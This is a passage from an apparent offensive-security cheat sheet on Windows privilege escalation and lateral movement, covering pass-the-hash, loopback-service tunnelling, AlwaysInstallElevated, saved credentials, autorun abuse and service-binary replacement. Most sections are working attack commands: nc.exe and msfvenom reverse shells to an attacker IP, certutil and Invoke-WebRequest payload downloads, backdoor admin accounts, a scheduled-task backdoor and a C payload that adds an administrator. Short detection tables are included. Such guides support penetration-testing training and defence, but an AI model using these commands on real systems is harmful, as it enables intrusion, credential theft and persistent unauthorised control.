✅ Using PsExec (with hash)
cmd

    psexec64 \\<hostname> -u <username> -p <hash> -h "C:\Windows\Temp\nc.exe <attacker-ip> 53 -e cmd.exe"
Requires PsExec variant that supports PtH (e.g., in Sysinternals, Impacket, or custom fork).

🔁 Alternative Tools & Methods
Tool	Description
Impacket psexec.py / wmiexec.py	Native support for PtH
Evil-WinRM	Can authenticate with hashes, useful for remote shells
Invoke-WMIExec	PowerShell script for remote command execution
CrackMapExec	Swiss army knife for SMB enumeration + PtH
Rubeus	Can pass TGT tickets for lateral movement (Kerberos equivalent)
Smbexec	Wrapper for smbclient to execute using hashes

🧪 Example: Remote Shell via pth-winexe
bash

    pth-winexe -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:<NTLM_hash> //192.168.1.5 cmd
Result: Interactive cmd.exe shell as Administrator on the remote system.

🛡️ Detection & Mitigation
Defense Strategy	Description
🧼 Disable NTLM	Disable or limit NTLM authentication via GPO
🔐 Enforce SMB Signing	Prevents tampering with SMB messages
🔎 Log Event IDs	Monitor logs: 4624, 4648, 4776 for unusual logins
🔍 Monitor Tools	Detect usage of pth-*, psexec, mimikatz, etc.
🔒 Credential Guard	Protects LSASS from being dumped
📊 Use Sysmon	Track process creation + network connections

✅ Summary Cheat Sheet
Purpose	Command
Dump hashes (WCE)	wce64.exe -w
Remote PtH	pth-winexe -U domain/user%hash //ip cmd
Local PtH (PsExec)	psexec64 \\host -u user -p hash -h command
Set SMBHASH	export SMBHASH=LM:NTLM
Remote PtH (Impacket)	psexec.py -hashes :NTLM domain/user@ip


</details>
<details>
<summary>Loopback Services</summary>
 <br> 
=================
Loopback services are applications or services listening on 127.0.0.1 (localhost) only, meaning they cannot be accessed from outside the machine by default. However, if an attacker has local access (e.g., reverse shell, RDP, or low-privileged foothold), these internal services can be proxied or forwarded externally, and then abused — for example, to exploit internal APIs, web interfaces, or escalate privileges.

🔍 Step 1: Identify Loopback Services
Use netstat to check for services bound only to 127.0.0.1 (localhost):

cmd

    netstat -ano | findstr "LISTEN"
🔍 Look for entries like:

nginx

    TCP    127.0.0.1:8000    0.0.0.0:0    LISTENING    1234
Port 8000 is only available on loopback.

PID 1234 may correspond to a high-privilege service like an internal web API.

✅ Identify the service name behind the PID:
cmd

    tasklist /fi "PID eq 1234"
🔁 Step 2: Port Forward the Loopback Service to Attacker
You can remotely expose the local-only service using port forwarding over an SSH tunnel with plink.exe.

✅ Using plink.exe (SSH Reverse Tunnel):
cmd

    plink.exe -l <attacker-username> -pw <attacker-password> <attacker-ip> -R <attacker-port>:127.0.0.1:<target-port>
🔁 Example:
cmd

    plink.exe -l kali -pw P@ssw0rd 192.168.1.100 -R 9000:127.0.0.1:8000
This binds port 9000 on your attacking machine to the victim’s internal port 8000 (localhost). Now you can open http://localhost:9000 on your attacker box to access the internal service.

⚙️ Use Cases
Use Case	Example
🧪 Exploit internal web apps	HTTP admin panels only listening on 127.0.0.1
🔄 Abuse local privileged APIs	Exploit services like Jenkins, Redis, MySQL bound to localhost
📦 Pivot into internal systems	Forward 127.0.0.1:3306 (MySQL) and reuse credentials
🔐 Extract secrets	Vaults, config servers, DB admin panels (e.g., Mongo Express)

🛠️ Alternatives to plink.exe
✅ ssh from Linux (native):
bash

    ssh -R 9000:127.0.0.1:8000 attacker@attacker-ip
✅ chisel (More advanced tunneling over HTTP):
bash

# On attacker:
    chisel server -p 9001 --reverse

# On victim:
    chisel client attacker-ip:9001 R:9000:127.0.0.1:8000
✅ socat (bidirectional proxying):
bash

    socat TCP-LISTEN:9000,fork TCP:127.0.0.1:8000
✅ Invoke-SSHCommand / PSSession (PowerShell Remoting):
For environments with WinRM enabled:

powershell

    Enter-PSSession -ComputerName target -Credential $creds
    New-NetFirewallRule -DisplayName "Allow SSH Tunnel" -Direction Inbound -LocalPort 22 -Protocol TCP -Action Allow
🔐 Detection & Defense
Detection Technique	Description
🔍 Monitor Netstat Output	Look for services bound to 127.0.0.1
🧪 Check for Reverse SSH	Monitor plink.exe, ssh.exe, or chisel.exe processes
📊 Enable Sysmon Logging	Monitor for unusual child process or network connections
🔒 Restrict Loopback Services	Configure services to require authentication even on loopback
🛡️ Egress Filtering	Block outbound SSH, chisel, or tunneling ports
🧰 Use Application Firewalls	Restrict access to internal-only services using local firewalls

🧪 Example Scenario
✅ Find a local service:
pgsql

    127.0.0.1:8888 - PID 4321 - Web API for internal admin panel
✅ Tunnel it to attacker machine:
cmd

    plink.exe -l kali -pw kali 192.168.1.100 -R 8080:127.0.0.1:8888
✅ On Kali (attacker):
bash

    curl http://localhost:8080
💥 You now access a privileged local service remotely, possibly leading to RCE, token theft, or privilege escalation.

✅ Summary Cheat Sheet
Task	Command
List local ports	`netstat -ano
Identify process by PID	tasklist /fi "PID eq <pid>"
Tunnel with plink	plink.exe -R <LPORT>:127.0.0.1:<RPORT>
Tunnel with SSH	ssh -R <LPORT>:127.0.0.1:<RPORT> user@attacker-ip
Tunnel with chisel	chisel client attacker-ip:port R:...


</details>
<details>
<summary>AlwaysInstallElevated</summary>
 <br> 
=====================
 
🔍 Overview
AlwaysInstallElevated is a Windows policy setting that, when enabled, allows non-privileged users to install Microsoft Installer Packages (.msi files) with elevated (SYSTEM) privileges. This feature, originally intended for administrative convenience, becomes a serious security misconfiguration if both user-level and machine-level policies are enabled simultaneously.

⚠️ If both registry keys (HKCU and HKLM) have AlwaysInstallElevated = 1, any user can install MSI files with SYSTEM-level privileges.

🧪 Detection
Before exploitation, you need to check if the target machine is misconfigured:

✅ Check via Registry
powershell

    reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
Both keys must return AlwaysInstallElevated REG_DWORD 0x1 for the system to be vulnerable.
<img width="1061" height="261" alt="image" src="https://github.com/user-attachments/assets/3fad82f8-9c74-4d4d-9290-96e62ce68605" />

✅ Check via Enumeration Tools
Use winPEASany.exe on the target system to automatically enumerate this setting:

powershell

    .\winPEASany.exe all
Look under "Registry - AlwaysInstallElevated" section for any findings.
<img width="1041" height="119" alt="image" src="https://github.com/user-attachments/assets/eb4d5020-8458-41c9-985b-ab6cd9a2f5d1" />

✅ Remote PowerShell Shell Check (Optional)
If you have a reverse shell on the target, verify with:

powershell

    reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    reg query HKLM\Software\Policies\Microsoft\Windows\Installer
Or automate using PowerShell:

powershell

    Get-ItemProperty -Path "HKCU:\Software\Policies\Microsoft\Windows\Installer" | Select-Object AlwaysInstallElevated
    Get-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows\Installer" | Select-Object AlwaysInstallElevated
💥 Exploitation
Once confirmed vulnerable, you can exploit the system by creating and executing a malicious .msi payload.

🔧 Step 1: Generate a Malicious MSI File
Option 1: Add User to Administrators Group
bash

    msfvenom -p windows/exec CMD='net localgroup administrators USERNAME /add' -f msi -o adduser.msi
Replace USERNAME with the low-privileged user account you want to escalate.

Option 2: Create a Backdoor User
bash

    msfvenom -p windows/adduser USER=pwned PASS=P@ssw0rd -f msi -o evil.msi
🌐 Step 2: Deliver Payload to Target
Option A: Host on Attacker Machine (Kali)
bash

    python3 -m http.server 8999
Option B: Direct Upload (if you have shell access)
powershell

    upload adduser.msi
Victim-side Download:
powershell

    Invoke-WebRequest -Uri "http://<Attacker-IP>:8999/adduser.msi" -OutFile "adduser.msi"
🚀 Step 3: Execute with SYSTEM Privileges
powershell

    msiexec /quiet /qn /i adduser.msi
/quiet /qn: Ensures the installation is completely silent (no GUI or prompts).

/i: Installs the specified MSI file.

🔎 Post-Exploitation: Verify Success
Confirm that the privilege escalation worked by checking group membership:

powershell
net localgroup administrators
You should now see the new or escalated user added to the Administrators group.
<img width="1062" height="586" alt="image" src="https://github.com/user-attachments/assets/b1865faf-8580-4771-bd50-5ef0742083f8" />

📘 Summary
Step	Description
1. Detect	Query registry or use winPEASany.exe to confirm both HKCU and HKLM values set to 1.
2. Create Payload	Use msfvenom to generate a .msi that adds a user or runs arbitrary commands.
3. Deliver Payload	Host on HTTP server or upload directly.
4. Execute with msiexec	msiexec /quiet /qn /i payload.msi runs it as SYSTEM.
5. Verify	Use net localgroup administrators to confirm elevated privileges.

🔐 Mitigation
Admins should ensure AlwaysInstallElevated is not enabled on both user and machine levels unless explicitly required (which is rare in modern environments).

To disable:

bash
     
     reg delete HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /f
     reg delete HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /f

</details>
<details>
<summary>Stored Credentials</summary>
 <br> 

==================

Windows allows users to store credentials in the system using Credential Manager or via commands like runas /savecred. These credentials are saved in a user-specific vault and may be reused by any user with access to the same session. If the /savecred option was used earlier or credentials were saved via GUI, they can be leveraged to execute commands under higher-privileged contexts without re-entering passwords.

🔍 Step 1: Enumerate Stored Credentials
Use the built-in cmdkey.exe utility to view stored credentials:

cmd

    cmdkey /list
🔎 Sample Output:

    yaml
    Currently stored credentials:

    Target: Domain:interactive=PWNED\Administrator
    Type: Domain Password
    User: PWNED\Administrator
✅ This shows that the user PWNED\Administrator has saved credentials available for use.

🚀 Step 2: Execute Commands Using Saved Credentials
Use runas with the /savecred flag to reuse stored credentials without retyping the password:

cmd

    runas /user:PWNED\Administrator /savecred "C:\Windows\System32\cmd.exe /c C:\Users\Public\nc.exe -nv <attacker-ip> <port> -e cmd.exe"
💡 runas spawns the command as the specified user. If /savecred is used and credentials were saved earlier, the prompt is skipped.

🧠 Note:

/savecred does not store credentials — it reuses previously saved ones.

You must provide full absolute paths for commands.

💥 Real-World Exploitation Example
User Administrator has previously saved credentials.

You run:

cmd

    runas /user:Administrator /savecred "C:\Windows\System32\cmd.exe"
You now have a shell running as Administrator, no password required.

🔁 Alternatives & Enhancements
✅ Use PsExec (if credentials were saved elsewhere or token is available):
cmd

    psexec.exe -u PWNED\Administrator -p <known-password> cmd.exe
Or combine with hashes if using Pass-the-Hash scenarios.

✅ Use PowerShell to Elevate:
powershell

    Start-Process "cmd.exe" -Credential (New-Object System.Management.Automation.PSCredential("PWNED\Administrator",(ConvertTo-SecureString "Dummy" -AsPlainText -Force)))
⚠️ Only works if plaintext password is known. Doesn’t support /savecred.

✅ Use Task Scheduler for Persistent Elevation:
cmd

    schtasks /create /tn "sysbackdoor" /tr "cmd.exe /c C:\Users\Public\nc.exe -nv <attacker-ip> 4444 -e cmd.exe" /sc once /st 00:00 /ru "PWNED\Administrator" /RL HIGHEST /F
Leverages stored creds if previously authenticated with this account.

🛡️ Detection & Defense
Defense	Description
🔍 Monitor cmdkey.exe usage	Unusual calls can indicate enumeration
📊 Detect runas /savecred usage	Enable command-line logging (e.g., Sysmon Event ID 1)
🔒 Limit use of /savecred	Enforce GPO to block its usage
🔐 Clear saved credentials	Use cmdkey /delete:<target> to remove saved entries
👁️ Monitor for runas.exe and scheduled task abuse	High-privilege task execution by low-privileged users is a red flag

🧹 Optional Cleanup
Clear stored credentials after use:

cmd

    cmdkey /delete:Domain:interactive=PWNED\Administrator
This deletes the saved credential and prevents re-use by attackers.

✅ Summary Cheat Sheet
Task	Command
View stored creds	cmdkey /list
Run with saved creds	runas /user:<user> /savecred "<command>"
Clear saved creds	cmdkey /delete:<target>
Elevate via PsExec	psexec -u <user> -p <password> cmd.exe
Schedule task w/ creds	schtasks /create ... /ru <user>

   </details>

   <details>
<summary>Autorun / Startup Applications</summary>
 <br>
  Windows allows programs to be configured to automatically execute at boot or login via various autorun or startup locations. If any of these locations have insecure file or directory permissions, a low-privileged user may be able to replace or modify a program, resulting in privilege escalation.

This technique becomes powerful when:

The autorun entry points to a program in a folder where users have write access

The program runs as SYSTEM or Administrator

The file is replaced by a malicious payload

🔎 Detection Techniques
✅ Autorun Registry & Startup Paths
Registry keys to check:

    HKLM\Software\Microsoft\Windows\CurrentVersion\Run

    HKCU\Software\Microsoft\Windows\CurrentVersion\Run

    HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce

    HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce

✅ Startup Folder (per-user and global)
Global (all users):

      C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup

Per-user:

     C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

Use icacls to check permissions:

powershell

    icacls "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
Check if "Users" or "Everyone" has (F) or (M) permissions (Full/Modify = vulnerable).
<img width="734" height="304" alt="image" src="https://github.com/user-attachments/assets/bdd1860f-5427-4c79-9a6c-9a06b7d3ea64" />

🔍 Using WinPEAS and Sysinternals Tools
WinPEAS shows:

Insecure file permissions
Autorun entries
Potential DLL hijacking targets
Autoruns64.exe (Sysinternals):
<img width="667" height="226" alt="image" src="https://github.com/user-attachments/assets/0cebe5ff-f10b-4d82-8458-c2ac27de5b42" />

Go to the Logon tab

Identify suspicious entries (e.g., My Program)

Right-click → Check file location and permissions

accesschk64.exe:

cmd

    accesschk64.exe -wvu "C:\Program Files\Autorun Program\program.exe"
Look for:
<img width="400" height="134" alt="image" src="https://github.com/user-attachments/assets/9509b23b-1e66-4efa-a446-21b0086b4c58" />

Everyone: FILE_ALL_ACCESS
💣 Exploitation Techniques
✅ Basic Reverse Shell Payload Creation
Generate a payload using msfvenom:

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.6.42.239 LPORT=4444 -f exe -o reverse.exe
Alternate (PowerShell):

    msfvenom -p windows/powershell_reverse_tcp LHOST=10.6.42.239 LPORT=4444 -f psh > shell.ps1
Start a Python server:

    python3 -m http.server 8999
Download payload on victim:

powershell

    certutil -urlcache -split -f http://10.6.42.239:8999/reverse.exe reverse.exe
Or:

powershell

    Invoke-WebRequest "http://10.6.42.239:8999/reverse.exe" -OutFile "reverse.exe"
✅ Replace Insecure Program
powershell

    Copy-Item "C:\Temp\reverse.exe" "C:\Program Files\Autorun Program\program.exe" -Force
✅ Place in Startup Folder (If Writeable):
powershell

    Copy-Item -Path "C:\Temp\reverse.exe" -Destination "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\startshell.exe"
✅ Persistence via Registry (Optional)
powershell

    New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "ShellAccess" -Value "C:\Users\<user>\Documents\reverse.exe" -PropertyType String
🧪 Simulate a Session
Log off and back in

Reboot the system

OR trigger any action that invokes the autorun/startup program

Your reverse shell listener should catch a shell as SYSTEM or Administrator.
<img width="581" height="229" alt="image" src="https://github.com/user-attachments/assets/f7eb185f-2167-446a-a243-34d745c02c44" />

🔁 Alternative Exploitation Methods
📌 DLL Hijacking
If an autorun app loads DLLs from the same folder and the folder is writable, you can plant a malicious DLL named as expected.

Tools like Process Monitor or Procmon can help identify DLL load attempts.

📌 Replace Scheduled Task Executable
Scheduled tasks that point to insecure executables or paths can be exploited similarly. Check:

powershell

    schtasks /query /fo LIST /v
Then:

powershell

    accesschk64.exe -wvu "C:\Path\To\Executable.exe"
📌 PowerShell-Based Payload in Startup Folder
Instead of EXE, drop a .ps1 file and create a .bat or .vbs launcher.

Startup Folder Method:

    @echo off
    powershell -exec bypass -File "C:\ProgramData\Startup\shell.ps1"
🧠 Summary
Step	Tool/Command
Detect startup items	Autoruns64.exe, WinPEAS, Registry, Startup folder
Check permissions	accesschk64.exe, icacls
Generate payload	msfvenom, revshells.com
Transfer payload	certutil, Invoke-WebRequest, Python HTTP server
Replace vulnerable EXE	Copy-Item, copy
Trigger execution	Login/reboot or startup folder launch  
 </details>
 
  <details>
<summary>Executable Files</summary>
 <br>
   This privilege escalation technique involves modifying an executable file used by a Windows Service when:

The file is owned or writable by low-privileged users.

The service runs with elevated privileges (e.g., SYSTEM or Administrator).

The service loads the executable directly from disk without verification.

If a user can overwrite or replace the service binary, they can inject a malicious executable that runs with SYSTEM privileges when the service is restarted.

🔍 Detection
✅ Using Accesschk (SysInternals)
Transfer accesschk64.exe to the target Windows machine:

    certutil -urlcache -split -f http://<attacker-ip>:<port>/accesschk64.exe accesschk64.exe

<img width="769" height="230" alt="image" src="https://github.com/user-attachments/assets/d83105b5-e09f-4ac7-9260-d717959584ed" />
Check for weak permissions on service binaries:

    accesschk64.exe -wvu "C:\Program Files\File Permissions Service"
Look for output like:
<img width="748" height="256" alt="image" src="https://github.com/user-attachments/assets/c861dc30-0d3b-4611-88a4-e532ccc08e21" />

Everyone FILE_ALL_ACCESS
That indicates any user can overwrite the service binary — a major misconfiguration.

✅ Using winPEAS
Run winPEAS.exe on the target system. Look under the section:

"Interesting file & directory permissions"

You’ll see world-writable executables linked to services — these are prime targets.

✅ Manual Check (Optional)
Check permissions via GUI:

Right-click the .exe file

Go to Properties → Security → Advanced

See if Users, Everyone, or a non-admin user has Write or Full Control

⚔️ Exploitation
Once you've identified a service binary you can overwrite, follow these steps:

💣 Step 1: Write a Malicious Executable
On Kali Linux:

Edit a malicious C payload that performs privilege escalation (e.g., add user to admins):

c

#include <stdlib.h>
int main() {
  system("cmd.exe /c net localgroup administrators attacker /add");
  return 0;
}
Compile it:

    x86_64-w64-mingw32-gcc windows_service.c -o evil.exe
💾 Step 2: Replace the Target Binary
Upload evil.exe to the target machine:

# On victim (PowerShell or CMD)
copy C:\Temp\evil.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
(Use /Y to overwrite without prompt)

🚀 Step 3: Start the Service

    sc start filepermsvc
The service will launch your malicious payload with elevated privileges.

✅ Step 4: Verify Exploitation
Check that the new user is added:

    net localgroup administrators
🧰 Alternative Methods
🛠 Replace with Reverse Shell
Instead of adding a user, you can embed a reverse shell payload using msfvenom:

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=<your-ip> LPORT=4444 -f exe -o revshell.exe
Then overwrite the service binary with revshell.exe and restart the service.

Start listener on Kali:

    nc -lvnp 4444
🧪 Persistence (Optional)
After escalating, create a new user and add to administrators for long-term access:

powershell

    net user pwned P@ssw0rd! /add
    net localgroup administrators pwned /add
🧱 Hardening Recommendations
If you're auditing a system:

Ensure only SYSTEM or Administrator has write access to service executables.

Use tools like AccessEnum or icacls to review ACLs.

Avoid running services from user-writable locations like C:\Temp\ or Downloads.

📌 Summary
Step	Action
1.	Identify vulnerable service binary with world-writable permissions
2.	Overwrite it with a malicious executable
3.	Restart the service
4.	Get SYSTEM shell or escalate privilege
 </details>
